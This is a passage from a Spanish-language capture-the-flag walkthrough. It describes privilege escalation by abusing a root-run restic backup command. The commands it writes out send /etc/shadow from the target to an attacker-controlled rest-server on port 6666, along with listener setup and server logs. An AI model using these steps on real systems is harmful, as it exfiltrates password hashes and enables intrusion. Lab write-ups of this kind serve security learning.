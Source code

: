 Vamos a probar si realiza una conexion a nuestro servidor atacante metiendo el siguiente comando de prueba.

```shell
backup -r "rest:http://<IP>:6666/Shell" /etc/shadow
```

Abriremos un servidor de `python3` para ver si nos llega aunque sea:

```shell
python3 -m http.server 6666
```

Ahora si le damos a enviar nos dara un error claramente, pero si volvemos a donde tenemos nuestro servidor de `python3` veremos lo siguiente:

```
Serving HTTP on 0.0.0.0 port 6666 (http://0.0.0.0:6666/) ...
10.10.11.74 - - [17/Sep/2025 08:54:59] "HEAD /Shell/config HTTP/1.1" 200 -
10.10.11.74 - - [17/Sep/2025 08:54:59] code 404, message File not found
10.10.11.74 - - [17/Sep/2025 08:54:59] "GET /Shell/keys/ HTTP/1.1" 404 -
```

Veremos que hace el intento de entrar al repo que le especificamos, pero no lo consigue por que requiere de una herramienta que vamos a instalar ahora llamada `rest-server` para crear nuestro repo y que realice el contacto del mismo volcando el archivo que queramos que nos mande, aprovechando que se esta ejecutando como `root` y como vimos en `GTFOBins` podemos hacer eso que vimos anteriormente.

Vamos a instalar la herramienta de esta forma:

```shell
go install github.com/restic/rest-server/cmd/rest-server@latest
export PATH=$PATH:$(go env GOPATH)/bin
```

Echo esto vamos a crear nuestro repo y establecer la escucha del servidor para que funcione de la siguiente forma:

```shell
rest-server --path /opt/restic-repos --no-auth --listen :6666
```

Info:

```
Data directory: /opt/restic-repos
Authentication disabled
Append only mode disabled
Private repositories disabled
Group accessible repos disabled
start server on [::]:6666
```

Ahora vamos a instalar la utilidad de `restic` para inicializar el repositorio en dicho servidor que tenemos abierto, para que nos lleguen los `backups` a dicho servidor del repo.

```shell
snap install restic --classic
```

Una vez instalada, vamos a inicializar como dije antes el repo llamado `Shell` en mi caso, podemos poner lo que queramos.
